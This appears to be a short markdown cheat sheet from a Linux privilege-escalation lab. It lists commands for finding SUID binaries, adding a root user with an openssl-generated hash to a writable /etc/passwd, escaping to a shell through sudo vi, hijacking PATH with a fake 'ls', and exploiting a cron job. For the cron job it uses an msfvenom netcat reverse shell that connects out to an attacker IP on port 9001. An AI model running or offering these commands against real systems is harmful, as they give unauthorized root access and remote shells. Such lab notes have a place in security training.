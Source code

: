 #BASIC INFO

```
export IP=10.10.236.200

```

#ENUMERATION
**writable /etc/passwd**


#ABUSING SUID/GUID

```
find / -perm -u=s -type f 2>/dev/null
```
<!---/home/user3/shell--->


#EXPLOIT WRITABLE /ETC/PASSWD
```
openssl passwd -1 -salt new 123
```
<!---$1$new$p7ptkEKU1HnaHpRtzNizS1--->

Create a new user in /etc/passwd
```
new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash
```

#ESCAPING VI EDITOR

##user8 has sudo permission to run vi as root

```
sudo vi
:!sh
```
<!---spawn shell --->

#EXPLOTING CRONTAB

cat /etc/crontab for all the cron jobs
use msfvenom to create exploit
msfvenom -p cmd/unix/reverse_netcat lhost=10.8.8.177 lport=9001 R
<!---
	mkfifo /tmp/oamuz; nc 10.8.8.177 9001 0</tmp/oamuz | /bin/sh >/tmp/oamuz 2>&1; rm /tmp/oamuz
--->

#EXPLOITING PATH VARIABLE

./script is running ls, probably sudo as well

```
cd /tmp
echo "/bin/bash" > ls
chmod +x ls
export PATH=/tmp:$PATH
/user4/script

```